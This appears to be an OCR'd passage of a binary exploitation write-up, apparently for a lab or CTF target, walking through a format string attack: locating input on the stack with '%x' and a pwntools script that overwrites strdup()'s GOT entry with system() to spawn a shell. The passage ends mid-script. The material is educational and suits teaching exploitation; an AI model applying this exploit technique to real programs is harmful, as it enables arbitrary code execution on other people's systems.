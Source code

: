 
```python

...
exploit = ""

exploit += "AAAABBBBCCCC"                      

exploit += "%x "*10
...
```
Ideally you can quickly find the `41414141 42424242 43434343` in the output besides other addresses. 
If you do you can see at which position your fed input is dumped.
For example it could look like this:

`AAAABBBBCCCC200 f7faf5a0 f7ffd53c ffffcc48 f7fd95c5 0 41414141 42424242 43434343 25207825 78252078 20782520 25207825 78252078 20782520` 
That would mean our input is on the 7th position of the stack.
We can replace `AAAABBBBCCCC` now with something more meaningful like an entry from the GOT we want ot overwrite.  

Basically what we want to do next is write a certain amount of bytes and with that change the address of `strdup()`.  
    
I do this 4 times to overwrite the 4 2byte positions of `strdup()` within the GOT.  

```python
#!/usr/bin/env python

import argparse
from pwn import *
from pwnlib import *

context.arch ='i386'
context.os ='linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/vuln')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')


def pad(s):
    return s+"X"*(512-len(s))


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    exe = './binary/vuln'

    strdup_plt = 0x804a014
    system_libc = 0xf7e37da0

    exploit = "sh;#    "

    exploit += p32(strdup_plt)
    exploit += p32(strdup_plt+1)
    exploit += p32(strdup_plt+2)
    exploit += p32(strdup_plt+3)

    exploit += "%9$136x"
```